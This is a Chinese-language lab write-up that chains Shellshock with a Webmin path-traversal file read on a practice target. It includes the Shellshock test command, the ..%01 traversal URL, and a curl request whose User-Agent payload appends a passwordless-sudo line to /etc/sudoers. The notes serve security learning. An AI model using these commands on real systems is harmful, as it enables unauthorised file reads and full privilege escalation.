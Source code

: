 
利用条件:1.bash --version   version<4.3
        2.Apache web 服务器
        3.mod_cgi启用
        4.有cgi脚本
利用方式:通过Apache cgi脚本概念验证
        即是通过web访问cgi脚本并修改ua头，将ua头改为想执行的命令



验证命令

```bash
$ env x='() { :;}; echo "shellshocked!!!"' bash -c date
```

![](images/2024-03-06-16-31-45.png)

这台靶机是存在的
此外这台靶机的webmin还存在任意文件读取的漏洞
webmin作为一个web的系统管理工具，使用perl作为服务端脚本语言，并结合了cgi技术（查看webmin的源码也可以发现
而任意文件读取毫无疑问是可以通过web来执行cgi脚本的

![](images/2024-03-06-16-40-44.png)

查看perl脚本

```perl
  $temp="/..%01" x 40;

                if ($tar == '0')
                        { my $url= "http://". $target. ":" . $port ."/unauthenticated/".$temp . $filename;
                        $content=get $url;

```
得知改漏洞的利用原理是构造如下url

http://10.10.10.20：10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/filename

![](images/2024-03-06-16-52-27.png)

可以读取文件
那么接下来的利用
1.创造一个cgi脚本，脚本中使用`#!bin/bash`
2.在访问改cgi脚本执行时，通过修改ua头，将要执行的命令通过ua头传送

创建了一个cgi脚本
```bash
obama@ubuntuvm:~$ echo '#!/bin/bash' > test.cgi                        
obama@ubuntuvm:~$ cat test.cgi 
#!/bin/bash
obama@ubuntuvm:~$ chmod +x test.cgi 
```
通过curl构造ua修改攻击

```bash
┌─[fforu@parrot]─[/usr/share]
└──╼ $sudo curl http://10.10.10.20:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/obama/test.cgi -A '() { :; }; /bin/echo "obama ALL=(ALL) NOPASSWD:ALL" 
>> /etc/sudoers'
<h1>Error - Missing C ontent-Type Header</h1>
```
构造完毕后执行即可

```bash
obama@ubuntuvm:~$ sudo -l
User obama may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

sudoers文件解析
第一个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第一个 ALL 指定了被授权执行命令的用户。在这个例子中，obama 是被授权的用户，ALL 表示可以在任何主机上执行命令。

第二个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第二个 ALL 指定了被授权执行命令的身份。在这个例子中，ALL 表示可以以任何用户的身份执行命令。

第三个 ALL：在 obama ALL=(ALL) NOPASSWD: ALL 中，第三个 ALL 指定了被授权执行的命令。在这个例子中，ALL 表示可以执行任何命令。

obama ALL=(ALL) NOPASSWD: ALL 这行的意思是允许用户 obama 在任何主机上以任何用户的身份执行任何命令，而且不需要密码验证。